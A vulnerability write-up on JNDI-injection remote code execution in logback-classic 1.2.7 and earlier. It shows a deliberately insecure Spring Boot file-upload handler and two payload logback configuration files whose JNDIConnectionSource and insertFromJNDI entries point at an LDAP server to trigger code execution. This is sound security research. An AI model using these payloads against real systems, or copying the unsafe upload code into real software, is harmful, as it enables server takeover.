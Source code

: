 1. ##  Affected version

   logback-classic <=1.2.7

   ##  Environment

    SpringBoot 2.6.1 

    JDK8u111(Please note the available versions of JNDI)

   ##  Project address

   https://github.com/cn-panda/logbackRceDemo

   The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

   ```java
   public String upload(@RequestParam("file") MultipartFile file) {  
       if (file.isEmpty()) {  
           return "Upload failed, please select a file！！";  
       }  
     
       String fileName = file.getOriginalFilename();  
       String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
       System.out.println(filePath);  
       File dest = new File(filePath,fileName);  
       try {  
           file.transferTo(dest);  
           LOGGER.info("Upload succeeded!!");  
           return "Upload succeeded!!";  
       } catch (IOException e) {  
           LOGGER.error(e.toString(), e);  
       }  
       return "Upload failed!!";  
   }
   ```

   The main function of this method is to upload files.

   The configuration file of logback in the project is as follows:

   ![[../image/Pasted image 20211214164218.png]]

   The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

   If the configuration file is detected to change, it will update and load the configuration file in real time.

   In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE

   # Vulnerability analysis

   ## JNDIConnectionSource

   在 logback 中同样类似于log4j1.x 中  JDBCAppender 的 Appender —— **DBAppender**，DBAppender 中有一个名为`ConnectionSource`的接口

   In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

   There is an interface called `ConnectionSource` in DBAppender.

   This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

   There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

   Each of these three implementation classes can be used to achieve RCE.

   But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

   **JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

   In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

   ![[../image/Pasted image 20211214155414.png]]

   If dataSource is empty, then let `dataSource = lookupDataSource();`

   Then trigger `lookup` in **lookupDataSource()**:

   ![[../image/Pasted image 20211214155302.png]]

   #### Vulnerability recurrence

   First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

   ![[../image/Pasted image 20211214160245.png]]

   Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

   ![[../image/Pasted image 20211214160704.png]]

   This means that your vulnerability environment has been built.

   Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

   ```
   <configuration scan="true" scanPeriod="10 seconds" debug="true">  
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
       　　　　　 <encoder>  
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
       　　　　　 </encoder>  
       　　　</appender>  
       <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
           <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
               <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
           </connectionSource>  
       </appender>  
     
       　　　<root level="DEBUG">  
       　　　　　　<appender-ref ref="STDOUT" />  
       　　　</root>  
   </configuration>
   ```

   Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

   ![[../image/Pasted image 20211214163728.png]]

   After waiting ten seconds, RCE can be executed successfully

   ![[../image/Pasted image 20211214164425.png]]

   ## insertFromJNDI

   In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

   `<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

   When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

   ![[../image/Pasted image 20211214170343.png]]

   ### Vulnerability recurrence

   The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

   ```
   <configuration scan="true" scanPeriod="10 seconds" debug="true">
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
       　　　　　 <encoder>
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
       　　　　　 </encoder>
       　　　</appender>
       <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  
   
   　　　<root level="DEBUG">
       　　　　　　<appender-ref ref="STDOUT" />
       　　　</root>
   </configuration>
   ```

   Upload the configuration file:

   ![[../image/Pasted image 20211214170840.png]]

   Similarly, after waiting for 10 seconds, RCE can be triggered:

   ![[../image/Pasted image 20211214171037.png]]

   In fact, in addition to these two, the `begin` in `JMXConfiguratorAction` can also be used for malicious purposes.

   ![[../image/Pasted image 20211214175452.png]]

   # Summarize

   In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

   1. The configuration file of logback can be modified or overwritten
   2. Able to make the modified configuration file take effect
